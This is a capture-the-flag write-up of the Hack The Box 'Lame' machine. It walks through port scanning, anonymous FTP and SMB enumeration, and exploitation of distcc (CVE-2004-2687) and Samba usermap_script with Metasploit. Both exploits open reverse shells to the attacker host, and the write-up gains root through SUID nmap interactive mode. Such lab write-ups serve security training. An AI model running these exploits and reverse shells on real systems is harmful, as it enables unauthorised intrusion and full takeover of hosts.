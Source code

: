 # Lame

## Summary

[Lame](https://app.hackthebox.com/machines/1) is an <mark style="color:green;">easy-rated</mark> beginner-friendly machine offering an engaging foothold and a standard privilege escalation path. Despite unfruitful attempts at **enumerating host shares**, exploration of the **`distcc`** service unveils exploitable opportunities. Leveraging **Metasploit**, we establish our **foothold**, while a search for **SUIDs** enables successful **privilege escalation**.

<table><thead><tr><th width="94" align="right">Step</th><th>Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td><code>distcc</code> research</td><td><a href="../../tools/port-scanners.md">nmap</a>, <a href="https://www.metasploit.com/">metasploit</a></td><td>Foothold</td></tr><tr><td align="right">2</td><td>Host enumeration</td><td><a data-footnote-ref href="#user-content-fn-1">LotL</a></td><td>Privilege escalation</td></tr></tbody></table>

## Recon

### Open Ports

Let's start with a port-scan using our [port-scanning script](https://raw.githubusercontent.com/CSpanias/ctf-scripts/refs/heads/main/nmap-scan.sh).

```bash
$ nmap-scan.sh 10.10.10.3
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

Based on Nmap's result, there are 5 ports open which reveal some interesting information worth noting down (Figure 1).

<figure><img src="../../.gitbook/assets/lame_nmap.png" alt=""><figcaption><p>Figure 1: Port scanning using <code>nmap</code>.</p></figcaption></figure>

Before moving forward, we should add the hostname, the domain name and the FQDN[^2] to our local DNS file.

```bash
$ grep lame /etc/hosts
10.10.10.3      hackthebox.gr lame.hackthebox.gr lame
```

### FTP

We can confirm that the FTP server is completely empty, so not much to do here.

```bash
# Connecting to the FTP server
$ ftp anonymous@lame
Connected to hackthebox.gr.
220 (vsFTPd 2.3.4)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50264|).
150 Here comes the directory listing.
226 Directory send OK.
ftp>
```

### SMB

The SMB server also allows anonymous authentication and by enumerating it using [NetExec](../../tl-dr/active-directory/ad-tools/netexec.md), we see only one non-default share: `tmp`. Interestingly enough, we have both `READ` and `WRITE` access to it, which allows us to spider it. At the first glance, the file `vgauthsvclog.txt.0` seems interesting, but, unfortunately, it contains nothing useful.

```bash
# Enumerating SMB shares
nxc smb lame -u '' -p '' --shares
# Spidering the tmp share
nxc smb lame -u '' -p '' --spider tmp --regex .
# Downloading the file
nxc smb lame -u '' -p '' --share tmp --get-file vgauthsvclog.txt.0 vgauthsvclog.txt
```

<figure><img src="../../.gitbook/assets/lame_smb.png" alt=""><figcaption><p>Figure 2: Enumerating the SMB server.</p></figcaption></figure>

Since we have `WRITE` access to the `tmp` share, we can try to steal some hashes by uploading a `SCF` file to it, as described [here](../../services/shares/smb-139-445.md#scf), but this does not seem to work in this case.

## Foothold

### Distcc

We are out of choices; the only port left is the strange `3632`! So let's find out about that. Based on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc), `distcc` is _a distributed compilation tool that allows code to be compiled across multiple machines in a network with the goal of significantly reducing compilation time via workload distribution_. There is only a Metasploit module to try on the above article which is based on [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687) and leads to RCE. There is also an [Nmap script](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html) that exploits it, so let's try that first (Figure 3).

{% code overflow="wrap" %}
```bash
# Using NSE to check for the vulnerability 
sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
{% endcode %}

<figure><img src="../../.gitbook/assets/lame_NSE.png" alt=""><figcaption><p>Figure 3: Exploiting <code>distcc</code> using Nmap's NSE.</p></figcaption></figure>

That worked, so let's get a shell via Metasploit and, hopefully, read the `user.txt` flag 🚩 (Figure 4).

```bash
# Launching metasploit console
msfconsole -q
# Selecting the module
msf6 > use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
# Checking configuration options
msf6 exploit(unix/misc/distcc_exec) > show options
# Configuring the required variables
msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST tun0
LHOST => 10.10.14.22
# Executing the exploit
msf6 exploit(unix/misc/distcc_exec) > run
```

<figure><img src="../../.gitbook/assets/lame_user_flag.png" alt=""><figcaption><p>Figure 4: Dropping into a shell and reading the user flag.</p></figcaption></figure>

## Privilege Escalation

### Permissions

After enumerating the host, we can't really find anything that we could use to elevate our privileges. The next step is to check for [SUID files](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit).

```bash
# Checkin for SUID files
daemon@lame:/$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
<SNIP>
```

From the above output, `nmap` stands out right away. Checking [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) allows us to find a way and leverage the `nmap` binary (Figure 5) and read the `root.txt` flag 🚩.

<figure><img src="../../.gitbook/assets/lame_gtfobins.png" alt=""><figcaption><p>Figure 5: The GFTOBins guidance on how to leverage the <code>nmap</code> binary.</p></figcaption></figure>

```bash
daemon@lame:/$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# cat /root/root.txt
cat /root/root.txt
026<REDACTED>125
```

## Beyond Root

The SMB version on this box (`3.0.20`) is vulnerable to [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) (Figure 6), which is another flaw that leads to RCE...this time directly as `root`!&#x20;

```bash
# Searching for SMB vulnerabilities
searchsploit samba 3.0.20 --id
```

<figure><img src="../../.gitbook/assets/lame_smb_flaw.png" alt=""><figcaption><p>Figure 6: Searching SMB vulnerabilities with <code>seachsploit</code>.</p></figcaption></figure>

We can use Metasploit's module, get a `root` shell, and get both user 🚩 and root flag 🚩.

{% code overflow="wrap" %}
```bash
# Launching Metasploit console
msfconsole -q
# Selecting the module
msf6 > use exploit/multi/samba/usermap_script
# Configuring the module
msf6 exploit(multi/samba/usermap_script) > set lhost tun0
lhost => 10.10.14.22
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
# Executing the exploit
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.22:4444
[*] Command shell session 1 opened (10.10.14.22:4444 -> 10.10.10.3:59250) at 2024-04-30 17:58:08 +0100

whoami
root
cat /home/makis/user.txt
a7e<REDACTED>aac
cat /root/root.txt
026<REDACTED>125
```
{% endcode %}

[^1]: Living off the Land

[^2]: Fully Qualified Domain Name
